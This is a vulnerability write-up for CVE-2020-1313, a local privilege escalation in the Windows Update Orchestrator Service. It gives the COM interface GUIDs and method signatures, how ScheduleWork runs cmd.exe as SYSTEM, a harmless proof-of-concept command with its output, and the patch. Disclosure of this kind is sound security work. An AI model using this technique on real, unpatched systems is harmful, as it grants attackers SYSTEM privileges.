



# CVE-2020-1313

## Abstract

Windows Update Orchestrator Service is a DCOM service used by other components to install windows updates that
are already downloaded. USO was vulnerable to Elevation of Privileges (any user to local system) due to an improper 
authorization of the callers. The vulnerability affected the Windows 10 and Windows Server Core products. 
Fixed by Microsoft on Patch Tuesday June 2020.

## The vulnerability

The `UniversalOrchestrator` service (`9C695035-48D2-4229-8B73-4C70E756E519`), implemented in `usosvc.dll` is running as `NT_AUTHORITY\SYSTEM` and is configured with access permissions for `BUILTIN\Users` (among others).
Even though enumeration of the COM classes implemented by this service is blocked (OLEView.NET: Error querying COM interfaces - ClassFactory cannot supply requested class), the
`IUniversalOrchestrator` interface (`c53f3549-0dbf-429a-8297-c812ba00742d`) - as exposed by the proxy defintion - can be obtained via standard COM API calls. The following 3 methods are exported:

```
	virtual HRESULT __stdcall HasMoratoriumPassed(wchar_t* uscheduledId, int64_t* p1);//usosvc!UniversalOrchestrator::HasMoratoriumPassed
	virtual HRESULT __stdcall ScheduleWork(wchar_t* uscheduledId, wchar_t* cmdLine, wchar_t* startArg, wchar_t* pauseArg);//usosvc!UniversalOrchestrator::ScheduleWork
	virtual HRESULT __stdcall WorkCompleted(wchar_t* uscheduledId, int64_t p1);//usosvc!UniversalOrchestrator::WorkCompleted
```

The `ScheduleWork` method can be used to schedule a command to be executed in the context of the service and can be done without any authorization of the requestor.
Though the target executable itself must be digitally signed and located under `c:\windows\system32` or common files in `Program Files`, command line arguments can be specified as well. 
This makes it possible to launch `c:\windows\system32\cmd.exe` and gain arbitrary code execution this way under `NT_AUTHORITY\SYSTEM` making this issue a local privilege escalation.

The work is "scheduled", it is not kicked off immediately.

## Proof of Concept

The PoC I created configures a "work" with cmdLine `c:\windows\system32\cmd.exe` and parameters: `/c "whoami > c:\x.txt & whoami /priv >>c:\x.txt"`

Executing it:

```
	C:\111>whoami
	desktop-43rnlku\unprivileged

	C:\111>whoami /priv

	PRIVILEGES INFORMATION
	----------------------

	Privilege Name                Description                          State
	============================= ==================================== ========
	SeShutdownPrivilege           Shut down the system                 Disabled
	SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
	SeUndockPrivilege             Remove computer from docking station Disabled
	SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
	SeTimeZonePrivilege           Change the time zone                 Disabled

	C:\111>whoami /priv

	C:\111>UniversalOrchestratorPrivEscPoc.exe
	Obtaining reference to IUniversalOrchestrator
	Scheduling work with id 56594
	Succeeded. You may verify HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\WindowsUpdate\Orchestrator\UScheduler to see the task has indeed been onboarded. The command itself will be executed overnight if there is no user interaction on the box or after 3 days SLA has passed.
```

An entry about the scheduled work is added to the registry:



The specified command is executed overnight (around 23:20) when no user interaction is expected, or after 3 days of SLA has passed.

## The fix

Fixed by Microsoft on Patch Tuesday June 2020 by adding the missing CoImpersonateClient API call.

Implementation before the fix applied:



Implementation after the fix applied:



## More info

https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1313

